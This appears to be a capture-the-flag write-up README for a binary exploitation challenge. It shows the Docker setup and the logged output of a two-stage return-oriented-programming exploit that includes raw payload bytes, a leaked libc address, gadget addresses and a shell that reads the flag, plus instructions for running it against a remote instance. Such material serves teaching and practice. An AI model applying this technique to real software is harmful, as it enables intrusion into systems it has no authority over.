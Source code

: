 Use container for development:

```bash
docker build -t lactf-minecraft -f Dockerfile
docker run --rm -it -v $(pwd):/ctf lactf-minecraft /bin/tmux
```

Execute solution script against local target in container:

```bash
$ python3 solve.py
[+] Starting local process '/ctf/chall/ld-linux-x86-64.so.2': pid 16
Press enter to start exploit
Building payload 1...
Payload 1 bytes:  b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00N@\x00\x00\x00\x00\x00\xef\x10@\x00\x00\x00\x00\x00v\x11@\x00\x00\x00\x00\x00C\x12@\x00\x00\x00\x00\x00'
Payload 1 length:  96
Sending first payload...
Navigating to return...
Ret into the payload...
Sending GOT address to leak puts...
Leaked puts address (in libc):  0x7b2386677980
Building payload 2...
Libc base:  0x7b2386600000
pop_rbp_r13_addr:  0x7b23866fea7c
pop_rdi_addr:  0x7b23866277e5
one_gadget_addr:  0x7b23866d511f
Payload 2 bytes:  b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\x00\x00\x00\x00|\xeao\x86#{\x00\x00\x00O@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe5wb\x86#{\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x1fQm\x86#{\x00\x00'
Payload 2 length:  120
Sending second payload...
Opening shell...
[*] Switching to interactive mode

$ cat chall/flag.txt
THIS_IS_THE_FLAGTHIS_IS_THE_FLAGTHIS_IS_THE_FLAGTHIS_IS_THE_FLAG
$  
```

Execute solution script and start GDB for debugging target locally in
container, writing `pwntools` debugging context to stdout:

```
$ python3 solve.py GDB LOG
```

Execute solution script against remote target (assuming instance running
remotely and `solve.py` includes correct domain/port):

```
python3 solve.py REMOTE
<snip>
$ cat flag.txt
```


[--- chain[2]: main puts call addr --]
[------ chain[1]: read_int addr -----]
[----- chain[0]: nop gadget addr ----]
[--- chain[2]: main puts call addr --] <-- rsp
[------ chain[1]: read_int addr -----] 
[----- chain[0]: nop gadget addr ----]